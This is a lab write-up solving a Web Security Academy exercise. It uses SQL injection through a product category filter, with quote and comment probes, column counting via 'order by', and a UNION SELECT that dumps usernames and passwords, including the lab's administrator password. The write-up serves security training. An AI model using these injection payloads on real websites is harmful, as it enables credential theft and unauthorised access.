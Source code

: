 # Lab: SQL injection UNION attack, retrieving data from other tables

- sqli: product category filter
- end goal: retrieves all usernames and passwords table, and login as the administrator user

### Analysis
- url: `https://0a330051041e72da80d4543400ba0002.web-security-academy.net`

- front-end: `/filter?category=Food+%26+Drink`
- back-end: 
```sql
select * from product where category = 'Food & Drink' and released = 1 
```

- check sqli vulnerability
- front-end: `/filter?category=Food+%26+Drink'`
- back-end: 
```sql
select * from product where category = 'Food & Drink'' and released = 1 
'-- 500 Internal Server Error
```

- front-end: `/filter?category=Food+%26+Drink'--`
- back-end: 
```sql
select * from product where category = 'Food & Drink'-- and released = 1 
-- 200 OK: this website have sqli vulnerability
```

- determine how many columns which contain in this website
- front-end: `/filter?category=Food+%26+Drink' order by 2--`
- back-end: 
```sql
select * from product where category = 'Food & Drink' order by 2-- and released = 1 
-- 200 OK: I found 2 columns
```

- determine how many strings which containing in the columns
- front-end: `/filter?category=Food+%26+Drink' union select 'text', 'text'--`
- back-end: 
```sql
select * from product where category = 'Food & Drink' union select 'text', 'text'-- and released = 1 
-- 200 OK: both columns are text 
```

- find usernames and passwords tables from users column
- front-end: `/filter?category=Food+%26+Drink' union select username, password from users--`
- back-end: 
```sql
select * from product where category = 'Food & Drink' union select username, password from users-- and released = 1 
-- 200 OK: administrator:zsh94tgxsd2wt7o9onjc
```
- login as administrator acount
- Congratulations, you solved the lab!

---
